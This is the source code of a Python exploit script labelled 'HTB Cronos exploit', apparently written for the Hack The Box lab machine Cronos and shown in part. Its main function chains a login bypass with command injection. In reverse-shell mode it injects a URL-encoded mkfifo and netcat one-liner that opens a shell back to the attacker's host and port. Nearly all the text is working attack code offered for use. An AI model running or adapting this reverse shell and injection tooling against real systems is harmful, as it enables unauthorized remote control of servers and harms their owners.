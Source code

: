 ```python
    
def send_revshell(lhost, lport, target, s):
    try:
        command = f'rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Csh%20-i%202%3E%261%7Cnc%20{lhost}%20{lport}%20%3E%2Ftmp%2Ff'
        inject_command(target, command, s)

        raise Exception("[!] Error: Could NOT establish a reverse shell :(")

    except requests.Timeout:
        print("\n[+] Check your Netcat listener :D")

def set_arguments():
    parser = argparse.ArgumentParser(
        description="HTB Cronos exploit"
    )
    parser.add_argument('-t', '--target', dest='target', required=True)
    parser.add_argument('-m','--mode', dest='mode', choices=['c', 'r'], required=True)
    parser.add_argument('--command', dest='command')
    parser.add_argument('--lhost', dest='lhost')
    parser.add_argument('--lport', dest='lport', default=4444, type=int)
    
    return parser.parse_args()

def main():
    try:
        args = set_arguments()

        # bypass auth
        session = bypass_login(args.target)

        # reverse shell mode
        if args.mode == 'r':
            send_revshell(args.lhost, args.lport, args.target, session)

        # command injection mode
        elif args.mode == 'c':
            inject_command(args.target, args.command, session)

        sys.exit(0)

    except KeyboardInterrupt:
        print("\n[!] Keyboard interrumpt detected. Quitting!")
        sys.exit(1)
    
    except Exception as e:
        print(e)
        sys.exit(1)
        
main()
```
